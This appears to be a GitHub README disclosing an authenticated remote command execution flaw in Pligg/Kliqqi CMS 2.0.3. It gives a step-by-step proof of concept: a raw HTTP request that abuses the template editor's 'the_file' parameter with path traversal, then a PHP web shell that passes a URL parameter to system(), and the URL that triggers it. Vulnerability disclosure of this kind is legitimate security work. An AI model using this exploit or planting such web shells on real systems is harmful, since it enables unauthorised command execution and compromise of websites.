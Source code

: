 # pligg

## pligg 2.0.3 - CVE 

* Description : We can acces to anyfile using `the_file` parameter by template editor menu because of no check on extension and then create webshell into existing php file for exemple 
* Affected version : 2.0.3

### Information

To make this PoC, i just installed the sofware(`https://github.com/Kliqqi-CMS/Kliqqi-CMS`) using WAMP on Windows

* Vulnerability Type : Remote command execution (Authenticated RCE)

### POC 

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/pligg/master/start.png">

Go to `/admin/admin_editor.php` intercept the request and change the path to file.


for exemple to get `index.php` of application :

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/pligg/master/getindex.png">



```
POST /admin/admin_editor.php HTTP/1.1
Host: kliqqi
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://kliqqi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://kliqqi/admin/admin_editor.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
Connection: close

the_file=..%2Findex.php&open=Open
```


just click on "show response in browser", and edit the file to suit your needs 

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/pligg/master/write.png">

for exemple : 

```php
  if($_GET['cmd']){
    system($_GET['cmd']);
}
```

finaly go to `website.fr?cmd=dir`.

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/pligg/master/rce.png">
